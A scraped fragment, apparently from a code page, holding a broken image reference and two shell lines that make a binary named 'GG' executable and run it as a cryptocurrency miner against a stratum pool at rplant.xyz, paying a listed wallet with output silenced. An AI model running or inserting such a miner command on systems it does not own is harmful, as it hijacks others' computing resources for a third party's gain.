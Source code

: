 chmod +x GG
./GG -a power2b  -o stratum+tcps://stratum-na.rplant.xyz:17022 -u MqmM35U2EtSFVvit5VcW7nY9raBy6Sw6vm.a -p password=X >/dev/null
